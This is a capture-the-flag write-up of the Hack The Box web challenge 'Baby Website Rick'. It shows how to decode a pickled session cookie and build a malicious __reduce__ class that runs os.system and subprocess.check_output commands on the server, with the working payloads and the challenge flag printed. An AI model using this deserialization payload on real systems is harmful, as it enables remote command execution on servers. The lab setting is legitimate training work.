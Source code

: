 # Baby Website Rick

## Analysis

![](../../.gitbook/assets/image%20%2831%29.png)

All the references to **pickles** implies it's an **insecure deserialization** challenge. [`pickle`](https://docs.python.org/3/library/pickle.html) is a serialization format used in python.

If we check the cookies, we get the following:

```text
plan_b=KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu
```

Our guess is that this is a pickled python object, and decoding the base64 seems to imply that to us too:

```text
$ echo 'KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu' | base64 -d
(dp0
S'serum'
p1
ccopy_reg
_reconstructor
p2
(c__main__
anti_pickle_serum
p3
c__builtin__
object
p4
Ntp5
Rp6
s.
```

## Unpickling

Let's immediately try to unpickle the data, which should give us a feel for how data is parsed:

```python
from base64 import b64decode

import pickle

code = b'KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21haW5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDUKUnA2CnMu'

serum = pickle.loads(b64decode(code))
print(serum)
```

```text
$ python3 deserialize.py 
Traceback (most recent call last):
  File "deserialize.py", line 7, in <module>
    serum = pickle.loads(b64decode(code))
AttributeError: Can't get attribute 'anti_pickle_serum' on <module '__main__' from 'deserialize.py'>
```

The error is quite clear - there's no `anti_pickle_serum` variable. Let's add one in and try again.

```python
code = b'KGRwMApT[...]'
anti_pickle_serum = 'test'
```

That error is fixed, but there's another one:

```text
$ python3 deserialize.py 
Traceback (most recent call last):
  File "deserialize.py", line 8, in <module>
    serum = pickle.loads(b64decode(code))
  File "/usr/lib/python3.8/copyreg.py", line 43, in _reconstructor
    obj = object.__new__(cls)
TypeError: object.__new__(X): X is not a type object (str)
```

Here it's throwing an error because X \(`anti_pickle_serum`\) **is not a type object** - so let's make it a class!

```python
# [imports]
class anti_pickle_serum(object):
    def __init__(self):
        pass
# [...]
```

And now there's no error, and we get a response!

```text
$ python3 deserialize.py 
{'serum': <__main__.anti_pickle_serum object at 0x7f9e1a1b1c40>}
```

So the cookie is the pickled form of a dictionary with the key `serum` and the value of an `anti_pickle_serum` class! Awesome.

## Exploitation

For an introduction to pickle exploitation, I highly recommend [this blog post](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). Essentially, the `__reduce__` dunder method tells pickle how to deserialize, and to do so it takse a **function** and a **list of parameters**. We can set the function to `os.system` and the parameters to the code to execute!

```python
from base64 import b64encode

import pickle
import os

class anti_pickle_serum(object):
    def __reduce__(self):               # function called by the pickler
        return os.system, (['whoami'],)

code = pickle.dumps({'serum': anti_pickle_serum()})
code = b64encode(code)
print(code)
```

Here we create the malicious class, then serialize it as part of the dictionary as we saw before.

```text
$ python3 final.py 
b'gASVLAAAAAAAAAB9lIwFc2VydW2UjAVwb3NpeJSMBnN5c3RlbZSTlIwGd2hvYW1plIWUUpRzLg=='
```

Huh, that looks nothing like the original cookie value \(which starts with `KGRwMApTJ3`\)... maybe we missed something with the `dumps`?

Checking out the [`dumps()`](https://docs.python.org/3/library/pickle.html#pickle.dumps) documentation, there is a `protocol` parameter! If we [read a bit deeper](https://docs.python.org/3/library/pickle.html#data-stream-format), this can take a value from `0` to `5`. If we play around, `protocol=0` looks similar to the original cookie:

```python
code = pickle.dumps({'serum': anti_pickle_serum()}, protocol=0)
```

```text
$ python3 final.py 
b'KGRwMApWc2VydW0KcDEKY3Bvc2l4CnN5c3RlbQpwMgooVndob2FtaQpwMwp0cDQKUnA1CnMu'
```

Let's change the cookie to this \(without the `b''`\):

![](../../.gitbook/assets/image%20%2834%29.png)

As you can see now, the value `0` was returned. This is the return value of `os.system`! Now we simply need to find a function that returns the result, and we'll use `subprocess.check_output` for that.

{% hint style="danger" %}
For reasons unknown to me, python3 pickles this differently to python2 and doesn't work. I'll therefore be using python2 from now on, but if anybody know why that would happen, please let me know!
{% endhint %}

```python
return subprocess.check_output, (['ls'],)
```

Now run it

```text
$ python final.py 
KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydscycKcDQKYXRwNQpScDYKcy4=
```

And input it as the cookie.

![](../../.gitbook/assets/image%20%2833%29.png)

As can now see that there is a `flag_wIp1b` file, so we can just read it!

While it's tempting to do

```python
return subprocess.check_output, (['cat flag_wIp1b'],)
```

`subprocess.check_output` requires a **list** of parameters \(as we see here\) and the filename is a separate item in the list, like so:

```python
return subprocess.check_output, (['cat', 'flag_wIp1b'],)
```

```text
$ python final.py 
KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydjYXQnCnA0CmFTJ2ZsYWdfd0lwMWInCnA1CmF0cDYKUnA3CnMu
```

And boom - we get the flag!

![](../../.gitbook/assets/image%20%2832%29.png)

`HTB{g00d_j0b_m0rty...n0w_I_h4v3_to_g0_to_f4m1ly_th3r4py..}`

